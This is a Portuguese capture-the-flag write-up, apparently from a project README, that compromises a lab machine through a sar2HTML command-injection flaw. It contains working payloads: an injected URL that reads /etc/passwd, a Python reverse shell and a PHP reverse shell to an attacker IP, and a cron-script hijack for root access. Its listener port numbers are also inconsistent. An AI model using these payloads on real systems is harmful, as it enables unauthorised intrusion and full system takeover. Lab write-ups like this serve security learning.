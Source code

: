 # Capture the Flag - CTF
CTF  - Enumerando, explorando vulnerabilidade, conseguindo shell e posteriormente acesso root.
<h2>Passos seguidos para realizar essa exploração.</h2>

1. Utilizar o **Netdiscover**
2. Escanear portas usando **Nmap**
3. Enumeração da aplicação web com **Dirb**
4. "Exploitando" a vulnerabilidade com código de execução remota **(Remote Code Execution)**
5. Conseguindo shel remota com Python.
6. Explorar permissão de acesso de arquivo e conseguindo acesso root.

# Passo 1: Encontrando o IP da máquina alvo.
  
  O primeiro passo é rodar o Netdiscover para verificar os IPs na rede.
  
  ![](Imagens/Imagem1.png)
  
  Como pode-se ver, o endreço IP do alvo é: 192.168.1.24
  
  # Passo 2:
  
  Após conseguir o endereço IP alvo, o primeiro passo é escanear as ṕortas abertas e avaliar os serviços em execução.
  Vamos utilizar o **Nmap**.
  
  ![](Imagens/Imagem2.png)
  
  **_comando utilizado nmap -A 192.168.1.24_**
  
  Pode-se ver acima que a porta 80 está aberta, com o serviço http rodando. Também é possível ver algumas informações sobre o sistema alvo.
  
  # Passo 3
  
  Analisando a aplicação rodando na porta 80.

  <h1 align="center">
  <img alt="" title="Imagem3" src="Imagens/Imagem3.png" />
  </h1>
  
  Como pode ser visto na imagem acima, o serviço rodando na porta 80 é a página padrão do **apache**.
  Vamos verificar se há algum arquivo que pode ser explorado. Para isso vamos rodar a ferramenta **Dirb** e enumerar os arquivos da aplicação.
  
  
  <h1 align="center">
  <img alt="" title="Imagem4" src="Imagens/Imagem3.png" />
  </h1>
  
  **_Comando usado dirb 192.168.1.24_**
  
  Alguns arquivos foram encontrados como resultado do scan. Eciste alguns arquivos que retornadram status 200 do servidor.
  Vamos verificar o arquivo **"robots.txt"** no navegador.
  
   <h1 align="center">
  <img alt="" title="Imagem5" src="Imagens/Imagem5.png" />
  </h1>
  
  Podemos ver que há uma entrada incomum no arquivo **_robots.txt_**. Verificando o arquivo no browser:
  
  <h1 align="center">
  <img alt="" title="Imagem6" src="Imagens/Imagem6.png" />
  </h1>
  
  Como podemos ver, **"sar2HTML"** é uma ferramenta  instalada na máquina alvo, sua versão está disponível.
  
  # Passo 4
  
  Agora temos a aplicação -"sar2HTML"- e sua versão. Fazendo uma pesquisa, podemos ver que a aplicação é vulnerável e possui um exploit disponível.
    
   <h1 align="center">
  <img alt="" title="Imagem7" src="Imagens/Imagem7.png" />
  </h1>
  
  O primeiro resultado no google nos leva ao **Exploit-DB**. A ferramenta que roda no sistema possui a vulnerabilidade de execução de código remoto. Podemos ver os detalhes do exploit abaixo:
  
   <h1 align="center">
  <img alt="" title="Imagem8" src="Imagens/Imagem8.png" />
  </h1>
  
  Podemos ver os parâmetros de utilização do exploit
  
Montando a URL para utilizar no alvo:  **Exploit <<<http:192.168.1.24/sar2HTML/index.php?plot=;>>>**

Tentando ler o arquivo **_"/etc/passwd"_** através da execução do comando na URL. O resultado pode ser vist abaixo:

   <h1 align="center">
  <img alt="" title="Imagem9" src="Imagens/Imagem9.png" />
  </h1>
  
  O exploit funcionouuu e retornou o conteúdo de "/etc/passwd".
  
  # Passo 5
  
  Agora podemos executar comandos no alvo através do navegador utilizando o exploit. Como o objetivo é conseguir o acesso root, vamos conseguir um acesso um shell reverso. Existem algumas possibilidades para isso:
        1. Podemos utilizar python and perl
        2. Podemos utilizar o metasploit pra criar o arquivo de conexão reversa, fazer download dele como o comando **wget** e executá-lo.
        3. Se a máquina alvo possuir o netcat, podemos utilizá-lo para criar a conexão reversa.
       
Tentando o terceiro método primeiro, para isso basta verificar se á máquina alvo possui o netcat. Podemos rodar o comando **"nc --help"**, se o comando retornar o resultado quer dizer que o netcat está disponível.

   <h1 align="center">
  <img alt="" title="Imagem10" src="Imagens/Imagem10.png" />
  </h1>
  
  Como podemos ver acima o comando não retornou nada. Então vamos tentar o primeiro método. Para isso basta verificar se existe python ou perl instalando no sistema. Testando python primerio
  
   <h1 align="center">
  <img alt="" title="Imagem11" src="Imagens/Imagem11.png" />
  </h1>
  
  Como podemos ver na imagem, python está disponível no alvo e pode ser usado para conexão reversa. Agora é necessário executar o script de conexão reversa na máquina alvo, imagem abaixo.
  
    
   <h1 align="center">
  <img alt="" title="Imagem12" src="Imagens/Imagem12.png" />
  </h1>
  
  **URL: 192.168.1.24/sar2HTML/index.php?plot=;%20python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.1.20%22,1234));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27**
  
  
  **_Comando usado:_**
  
  1.  <<python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.1.20”,4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’>>
  2.  <<nc -lvp 1234>>
  
  Como se pode ver, eu coloquei o netcat para rodar na porta <<4321>> e então inserir o comando o navegador para receber a conexão reversa.
  
  
  # Passo 6
  
  Agora temos o acesso a shell, mas é uma acesso limitado. E o objectivo é conseguir acesso root. Então primeiro exectuta-se o comando para que nos dá acesso estável a shell.
  
    <h1 align="center">
  <img alt="" title="Imagem13" src="Imagens/Imagem13.png" />
  </h1>
  
  **python3 -c ‘import pty;pty.spawn(“/bin/bash”)’**
  
  E então eu quero saber a vesão do kernel linux:
  
  **uname -a**
  
  E a versão do sistema operacional
  
  **cat /etc/issue**
  
  Com essas informações em mãos pode-se pesquisar e ver o que se encontra. Procurando exploits online, nenhum pareceu atender. Entretanto, explorando o sistema por mais informações, conseguimos uma "user flag", como mostrado no print abaixo:
  
   <h1 align="center">
  <img alt="" title="Imagem14" src="Imagens/Imagem14.png" />
  </h1>
  
  **cd /home/love/Desktop**
  **cat user.txt**
   Podemos ler o arquivo user.txt.
   
 # Passo 7
 
 
 Buscando por permissões de arquivo **<<cat /etc/crontab>>**, temos um Cron que é executado como root a cada 5 minutos
  
   <h1 align="center">
  <img alt="" title="Imagem15" src="Imagens/Imagem15.png" />
  </h1>
  
  O Cron está rodando a partir de um arquivo, "finally.sh" como visto na imagem
    
   <h1 align="center">
  <img alt="" title="Imagem16" src="Imagens/Imagem16.png" />
  </h1>
  
  Mudando de diretório para **/var/www/html**  e lendos os  arquivos e suas permissões pode-se ver que com o nível de acesso atual, é possivel editar o arquivo "write.sh", que será excutado pelo Cron, que por sua vez roda como root.
  
  Agora ajustamos uam connexão reversa com php dentro do arquivo write.sh
  
  **_php -r ‘$sock=fsockopen(“192.168.1.20”,4444);exec(“/bin/sh -i<&3 >&3 2>&3”);’_**
  
  Esse comando o sistema alvo se conectará a nós (conexão reversa) na porta 4444. Como a ativade Cron estava configurada para executar a cada 5 minutos, aguardando esse tempo temos a conexão.
  
   <h1 align="center">
  <img alt="" title="Imagem17" src="Imagens/Imagem17.png" />
  </h1> 
  
  Agora que temos acesso root, podemos, objetivo deste CTF, Podemos ler a flag **cat root.txt**
  
  <h1 align="center">
  <img alt="" title="Imagem18" src="Imagens/Imagem18.png" />
  </h1>
  
  Podemos fazer qualquer coisa no sistema agora e isso completa o CTF.
  
  
  
  
 
  
  
  
  
  
  
